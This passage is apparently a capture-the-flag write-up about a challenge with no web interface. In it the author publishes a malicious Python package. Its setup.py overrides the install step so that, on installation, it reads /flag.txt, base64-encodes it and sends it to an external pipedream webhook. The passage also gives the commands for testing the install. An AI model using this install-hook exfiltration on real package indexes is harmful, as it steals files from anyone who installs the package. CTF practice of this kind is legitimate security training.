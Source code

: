 How can we get it since there is no web interface to see it? We can use a webhook. It was mentioned in the task description that we need to use private webhooks if we want it. Otherwise there are another solution that not everyone can afford to do it but it's going to be discussed here.

The first thing that we need to do is to create a python package that we can test its installation locally and once it works we can wait every 5 minutes and check the webhook whether it gets the request.

I've followed this tutorial on how to create a python package: [https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/)

And the setup.py included the following script:

```
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        #os.popen("pwd")
        import requests
        requests.get("https://ene63d9dv33i6ch.m.pipedream.net/?test="+os.popen("cat /flag.txt | base64").read())

setup(
    name='ctf-q21-empire-tmp-test123',
    description='The Emperor',
    version='9999.0.1',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand
    }
    )
```

Well, when I created a virtualenv with a fresh python3 installation just to test how the package is installed there:

```
virtualenv venv
source venv/bin/activate
pip install ctf-q21-empire-tmp-test123
```

The first time it didn't work when I didn't included `install_requires` because the package `requests` doesn't come with a fresh python installation. It was mentioned in the Stackoverflow question that there was no public packages initially installed. And when we install that package, we have to inform the setup package that we will import `requests` and we will request the webhook after the installation.
